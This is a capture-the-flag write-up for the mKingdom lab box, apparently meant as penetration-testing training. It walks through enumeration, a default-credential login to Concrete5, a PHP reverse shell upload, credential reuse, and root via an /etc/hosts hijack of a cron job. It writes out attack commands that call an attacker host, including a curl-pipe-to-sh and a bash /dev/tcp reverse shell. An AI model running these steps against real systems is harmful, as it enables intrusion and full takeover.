 # How to access the admin panel
Scan the website using nmap:
<pre>nmap -sV VICTIM_IP_ADDRESS </pre>
Nmap reveals that port 85 is open:

![image](https://github.com/user-attachments/assets/d0e4f543-0a32-4e3a-9baf-21c18ce4db59)


Run Gobuster after completing the Nmap scan. The results reveal the /app directory:
<pre>gobuster dir -u "http://VICTIM_IP_ADDRESS:85/" -w /usr/share/wordlists/dirb/small.txt -t 64</pre>
![Bez tytułu](https://github.com/user-attachments/assets/5cf1f095-12b2-4022-abd1-26df6afa62e9)

Click the "Jump" button, which triggers a redirect:

![image](https://github.com/user-attachments/assets/5a8c3552-8589-41f3-8828-bd6d1a132a19)

Further enumeration reveals a database.php file located in /config, which will be useful later:

![image](https://github.com/user-attachments/assets/366199be-a023-4fb6-9a7c-64de12f49556)

At the bottom of the page, there's information indicating that the site uses the Concrete5 CMS:

![image](https://github.com/user-attachments/assets/724469aa-2898-40f5-9a0c-3b57745afaa0)

Clicking the "Log in" button redirects to the login panel, which shows a standard admin login form. The default credentials are:
<pre>Username: admin</pre>
<pre>Password: password</pre>

<br><br>
# How to get a reverse shell
## On the victim machine
Go to System Settings → Files → Allowed File Types. Add php to the list of allowed file types:

![image](https://github.com/user-attachments/assets/9a76b22e-0758-4501-8a17-ca3c46b68cc1)

Create a shell.php file on the attacker's machine: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php   
Upload a PHP reverse shell:

![image](https://github.com/user-attachments/assets/8c92daa3-47ef-423f-96d3-76a197717059)  

A popup window will show the path to the uploaded file:
<pre>http://VICTIM_IP_ADRESS:85/app/castle/application/files/6217/4308/6870/shell.php</pre>

## On the attacker machine
Start a listener:
<pre>nc -lvnp 4444</pre>

Go back to browser and in new tab go to:
<pre>http://VICTIM_IP_ADRESS:85/app/castle/application/files/6217/4308/6870/shell.php</pre>

Once the shell is triggered, upgrade the session:
<pre>python3 -c 'import pty; pty.spawn("/bin/bash")'</pre>  
![image](https://github.com/user-attachments/assets/9d5bac6d-1e00-4ef2-96ed-1b3a7aa1d1cc)

<br><br>
# Get User Credentials
Go back to the database.php file found during gobuster enumeration. It contains credentials for the toad user:

![image](https://github.com/user-attachments/assets/c177072f-b9d0-45c7-b119-4bcc48774eca)

Switch to that user:
<pre>su toad</pre>  
In the toad home directory, there's no user.txt or root.txt, but we can extract credentials for mario from the environment variables:

![image](https://github.com/user-attachments/assets/f467a7ab-fe55-4fb8-ad63-98154e493d70)  

Use CyberChef to decode the Base64 password. The result: <pre>ikaTeNTANtES</pre>

Now log in as mario. Inside the mario directory, use less to read the user.txt flag:

![image](https://github.com/user-attachments/assets/0834e2fd-2a48-4ec2-a16a-f84c0b150d06)  

Root access is required for the root.txt.
 
<br><br>
# How to get root
We’ll use:
1.	linpeas.sh: http://michalszalkowski.com/security/linpeas/
2.	Documentation: https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS

## On the attacker machine
Download linpeas.sh:
<pre>wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh chmod +x linpeas.sh</pre>

Start a local HTTP server:
<pre>sudo python3 -m http.server 9000</pre>

## On the victim machine
Download and run linpeas.sh:
<pre>curl <attacker_machine_ip_adress>/linpeas.sh | sh</pre>

During the scan we can see that /etc/hosts is writable.

![image](https://github.com/user-attachments/assets/9ec6d78b-bf12-4972-990f-988be268f138)

After checking all running processes and cron jobs, there is a cron job which executes with root privilege every minute: 
<pre>curl mkingdom.thm:85/app/castle/application/counter.sh</pre>

To redirect mkingdom.thm to the attacker's IP:
<pre>echo "ATTACKER_IP_ADDRESS   mkingdom.thm" >> /etc/hosts</pre>  

However, this alone doesn't work, because cron still resolves to 127.0.1.1:

![image](https://github.com/user-attachments/assets/db84ae46-3c58-4a6a-8c23-40b4bc6fa090)

The workaround is to overwrite the entire file manually:
<pre> cat << EOF > /tmp/hosts_fixed
127.0.0.1       localhost
127.0.0.1       backgroundimages.concrete5.org
127.0.0.1       www.concrete5.org
127.0.0.1       newsflow.concrete5.org

::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

ATTACKER_IP_ADDRESS    mkingdom.thm
EOF
</pre>

Copy custom /tmp/hosts_fixed file and overwrite the system’s /etc/hosts file with it.
<pre>cp /tmp/hosts_fixed /etc/hosts</pre>

As shown below, the cron job is configured to reach the attacker's machine:

![image](https://github.com/user-attachments/assets/466df7d9-9eba-4e64-8704-baf2c15270f8)

## On the attacker machine
Create the folder structure:
<pre>mkdir -p app/castle/application
cd app/castle/application
</pre>

After that create counter.sh:
<pre>cat << EOF > counter.sh
#!/bin/bash
bash -i >& /dev/tcp/<attacker_machine_ip_address>/4444 0>&1
EOF
</pre>

Lastly change permission to executable:
<pre>chmod +x counter.sh</pre>

Full process:

![image](https://github.com/user-attachments/assets/bdcd3fc4-7ebe-40b0-9e55-fc67dca3001b)

In two separate terminals run:
<pre>python3 -m http.server 85</pre>
<pre>nc -lvnp 4444</pre>

Wait for cron to trigger:

![image](https://github.com/user-attachments/assets/f390b7ce-7501-4bf4-b7c8-bccf738083ad)
![image](https://github.com/user-attachments/assets/f734f8b5-5c6b-46cf-a38d-204315b04709)

Know we reverse shell as root:

![image](https://github.com/user-attachments/assets/d09eb426-53c8-4e87-81af-c42d098a7f0c)

Use less to check flag:

![image](https://github.com/user-attachments/assets/e03dee91-a4fe-4886-be92-681dbabda795)

